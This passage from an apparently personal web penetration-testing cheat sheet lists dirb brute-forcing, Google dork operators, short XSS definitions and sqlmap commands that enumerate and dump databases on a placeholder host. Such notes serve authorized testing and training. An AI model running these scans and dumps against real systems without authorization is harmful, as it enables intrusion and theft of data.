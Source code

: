**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

## Google Dorks

`site:  
intitle:  
inurl:  
filetype:  
AND, OR & |  
-`

[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross Site Scripting\)

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload. 

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```
